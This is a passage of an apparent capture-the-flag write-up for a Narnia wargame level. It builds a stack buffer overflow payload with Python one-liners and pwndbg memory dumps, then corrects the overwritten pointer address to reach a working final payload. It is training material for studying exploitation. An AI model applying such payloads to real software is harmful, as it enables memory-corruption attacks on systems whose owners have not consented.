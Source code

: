 Unfortunately, we are not done. Simply using the following payload:
```bash
$(python3 -c 'import sys;sys.stdout.buffer.write(b"A"*20+b"\xbf\xd4\xff\xff"+b"\x78\xd2\xff\xff"+b"\xee\xd4\xff\xff")')
```
our program just exits normally:
```bash
pwndbg> c
Continuing.
[Inferior 1 (process 242287) exited normally]
```
If we inspect the memory area near $esp, notice our blah pointer has changed from 0xffffd4bf to 0xffff53bf:
```bash
pwndbg> x/20x $esp
0xffffd24c:     0x0804a008      0xffffd254      0x41414141      0x41414141
0xffffd25c:     0x41414141      0x41414141      0x41414141      0xffff53bf
0xffffd26c:     0xffffd278      0x08049201      0xffffd4b3      0x00000000
0xffffd27c:     0xf7da1cb9      0x00000002      0xffffd334      0xffffd340
0xffffd28c:     0xffffd2a0      0xf7fade34      0x0804908d      0x00000002
pwndbg> 
```
After experimenting, for every extra byte we pass in after 20 A's, the address of our blah pointer decreases by 1. Since we add 12 bytes, we need to subtract 12 from the original address of our blah pointer (0xffffd4bf), giving us 0xffffd4b3. This will be our final payload:
```bash
$(python3 -c 'import sys;sys.stdout.buffer.write(b"A"*20+b"\xb3\xd4\xff\xff"+b"\x78\xd2\xff\xff"+b"\xee\xd4\xff\xff")')
```

![Index html](/assets/images/narnia/08-3.png)
